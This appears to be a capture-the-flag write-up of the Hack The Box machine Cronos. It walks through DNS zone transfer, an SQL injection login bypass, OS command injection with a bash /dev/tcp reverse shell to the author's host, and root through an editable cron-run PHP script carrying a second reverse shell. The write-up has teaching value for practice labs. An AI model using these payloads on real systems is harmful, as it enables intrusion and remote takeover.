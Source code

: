 Title: HTB Cronos writeup
Tags: oscp, htb, cron, dns, dns zone transfer, pspy
Summary: Pwning another retired box from TJNull's list
Date: 2020-09-02 15:00
Status: published

# Enumeration
Started with `nmap -sS` full TCP range:
```text
Nmap 7.80 scan initiated Wed Sep  2 11:14:46 2020 as: nmap -sS -p- -oA nmap-ss cronos.htb
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.066s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done at Wed Sep  2 11:17:20 2020 -- 1 IP address (1 host up) scanned in 153.96 seconds
```
Not so much services, at least no rabbit holes and dead ends I hope. Proceed with `-A`:
```text
Nmap 7.80 scan initiated Wed Sep  2 11:19:25 2020 as: nmap -sC -A -p22,53,80 -oA nmap-AT4-22-53-80 cronos.htb
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Cronos
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   60.90 ms 10.10.14.1
2   61.04 ms cronos.htb (10.10.10.13)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Wed Sep  2 11:19:44 2020 -- 1 IP address (1 host up) scanned in 20.08 seconds
```
DNS server is pretty unusual to be open on web box, worth trying common enumeration methods for it.

![axfr](/cstatic/htb-cronos/axfr.png)

Lucky shot! DNS server kindly permits us to do AXFR for `cronos.htb` domain. Moreover, webserver is using
virtual hosts so webpages on `10.10.10.13` and `cronos.htb` are different - that's why we should always
check for this and add corresponding entries in the `/etc/hosts`. Also to navigate to `admin.cronos.htb`
it should be added to `/etc/hosts` as well. It shows us the login form, I spent a bit of time trying
some lame user and password pairs like `admin:admin` but that was in vain. Turned out there's a trivial
SQLi login bypass, that I usually try with these combinations, something like `' or 1=1 -- `. This SQLi
allows access to some sort of 'net tool':

![net tool](/cstatic/htb-cronos/net-tool.png)

I was immediately suspecting OS command injection in there and it was indeed the case. For example,
trying to traceroute to `8.8.8.8 || cat /etc/passwd` works well, looks like the box doesn't have
internet access or traceroute so first command fails and `cat` kicks in:

![command injection](/cstatic/htb-cronos/cmd-inj.png)

This allows to send shell back without the need to transfer any tools using command like this:
`8.8.8.8 || bash -c 'bash -i >& /dev/tcp/10.10.14.13/53 0>&1'`. Obviously we have to get receiver
running on appropriate port, nc for example. Here's shell:

![unpriv shell](/cstatic/htb-cronos/unpriv-shell.png)

# Privilege escalation
Since the beginning I was suspecting that this box should be pwned using cron in some way, as the 
name suggests. So the first that I did is transferred `pspy64` and started to wait for some interesting
jobs to run. After a couple of minutes one interesting thing popped out:

![artisan](/cstatic/htb-cronos/artisan-cron.png)

Lovely, the script is owned by current user and we have proper rights to edit it:

![artisan perms](/cstatic/htb-cronos/artisan-perms.png)

This is an instant root shell. Just spin up another listener and edit the script. I used such a fragment:
```php
# snip
exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.13/443 0>&1");
# snip
```
To get root access:

![root shell](/cstatic/htb-cronos/root-shell.png)

Though this could possibly drive me to a dead end - who knows, maybe author intentionally gave this box a
tricky name? Maybe I should have better follow usual PE methodology, but it worked in a straightforward manner
and this that's matter most. I didn't even tried `sudo -l` which is a first thing to do usually.
